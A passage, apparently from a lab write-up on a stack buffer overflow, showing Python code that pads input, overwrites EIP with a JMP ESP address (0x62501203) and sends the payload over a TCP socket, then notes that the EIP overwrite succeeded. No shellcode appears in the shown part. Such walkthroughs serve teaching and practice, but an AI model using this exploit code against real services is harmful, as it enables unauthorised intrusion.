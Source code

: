 ```python

jmp_esp = 0x62501203
new_eip = struct.pack("<I", jmp_esp)

payload = b"".join([
    prefix,
    b"A" * offset,
    new_eip,
    b"C" *  (crash_length - len(prefix) - offset - len(new_eip))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

As shown below, we successfully overwritten the EIP and jumped to our EIP location.

![](images/breakpoint.png)
